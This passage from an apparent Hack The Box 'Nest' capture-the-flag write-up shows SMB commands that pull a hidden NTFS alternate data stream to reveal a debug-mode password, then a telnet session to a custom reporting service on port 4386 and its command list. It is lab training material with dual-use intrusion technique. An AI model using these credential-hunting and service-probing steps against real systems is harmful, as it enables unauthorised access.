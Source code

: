 ```ruby
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```
* download the debud mode file

```ruby 
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> 
```

* and here is the password for debug mode : **WBQ201953D8w**

* i downloaded all the files in this directory.

* The XML file contains the following information.

```ruby

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="h>
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>

```
* It appears to be a configuration file for the service running on port 4386 that we came across
earlier. Let's connect to this service.

```ruby 

xdev05@XDev05:~/Documents/HTB/Nest$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>


```
* this service allows us to run queries against a database.
